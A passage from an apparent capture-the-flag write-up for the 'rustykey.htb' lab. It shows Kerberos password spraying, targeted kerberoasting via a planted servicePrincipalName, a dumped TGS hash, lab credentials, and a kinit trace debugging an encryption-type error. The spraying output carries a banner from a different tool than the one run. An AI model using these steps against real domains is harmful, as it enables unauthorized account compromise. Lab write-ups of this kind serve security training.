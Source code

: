 ```sh
 kerbrute -domain rustykey.htb -users users.txt -passwords bigwords.txt
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Valid user => Administrator
[*] Blocked/Disabled user => Guest
[*] Blocked/Disabled user => krbtgt
[*] Stupendous => rr.parker:8#t5HE8L!W3A
[*] Saved TGT in rr.parker.ccache
[*] Valid user => mm.turner
[*] Blocked/Disabled user => gg.anderson
[*] Valid user => dd.ali
[*] Valid user => nn.marcos
[*] Valid user => backupadmin
[*] Stupendous => dd.ali:Password1234!
[*] Saved TGT in dd.ali.ccache

Again this is something where I'm trying to break through dd.ali's account, but it's not actually necessary. I'll leave this here as an example of targeted kerberoasting though.

```sh
KRB5CCNAME=./it-computer3.ccache bloodyAD --host dc.rustykey.htb -d rustykey.htb -k set object dd.ali servicePrincipalName -v http/fakeservice
[+] dd.ali's servicePrincipalName has been updated

 ./targetedKerberoast.py -k --no-pass --dc-host dc.rustykey.htb -d rustykey.htb
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (dd.ali)
$krb5tgs$23$*dd.ali$RUSTYKEY.HTB$rustykey.htb/dd.ali*$9cdf790d716a4e9f058184979a3c94d8$6c84df1ab924b36451c44f19b3fb26cc01a99e<snip>8a651ae5a691ea3f40682a3e517681d2ea3c8da767d7079af07f8e887f33118f175ee9abcb5696da8d1c83ef29b1b47d409f86a146f21b72fc735a5
```

With the password reset, I still couldn't get in. I did learn that KRB5_TRACE exists and gives super helpful information, but I still hadn't set the encryption types in krb5 from before. If you've followed along and copied my initial krb5.conf, you wont' have this problem.

```sh
KRB5_TRACE=/dev/stdout KRB5CCNAME=./bb.morgan.ccache KRB5_CONFIG=./krb5.secure.conf kinit bb.morgan
[345378] 1751365804.563526: Getting initial credentials for bb.morgan@RUSTYKEY.HTB
[345378] 1751365804.563528: Sending unauthenticated request
[345378] 1751365804.563529: Sending request (166 bytes) to RUSTYKEY.HTB
[345378] 1751365804.563530: Resolving hostname dc.rustykey.htb
[345378] 1751365804.563531: Sending initial UDP request to dgram 10.129.232.127:88
[345378] 1751365804.563532: Received answer (137 bytes) from dgram 10.129.232.127:88
[345378] 1751365804.563533: Sending DNS URI query for _kerberos.RUSTYKEY.HTB.
[345378] 1751365804.563534: No URI records found
[345378] 1751365804.563535: Sending DNS SRV query for _kerberos-master._udp.RUSTYKEY.HTB.
[345378] 1751365804.563536: Sending DNS SRV query for _kerberos-master._tcp.RUSTYKEY.HTB.
[345378] 1751365804.563537: No SRV records found
[345378] 1751365804.563538: Response was not from primary KDC
[345378] 1751365804.563539: Received error from KDC: -1765328370/KDC has no support for encryption type
[345378] 1751365804.563540: Retrying AS request with primary KDC
[345378] 1751365804.563541: Getting initial credentials for bb.morgan@RUSTYKEY.HTB
[345378] 1751365804.563543: Sending unauthenticated request
[345378] 1751365804.563544: Sending request (166 bytes) to RUSTYKEY.HTB (primary)
[345378] 1751365804.563545: Sending DNS URI query for _kerberos.RUSTYKEY.HTB.
[345378] 1751365804.563546: No URI records found
[345378] 1751365804.563547: Sending DNS SRV query for _kerberos-master._udp.RUSTYKEY.HTB.
[345378] 1751365804.563548: Sending DNS SRV query for _kerberos-master._tcp.RUSTYKEY.HTB.
[345378] 1751365804.563549: No SRV records found
kinit: KDC has no support for encryption type while getting initial credentials
```
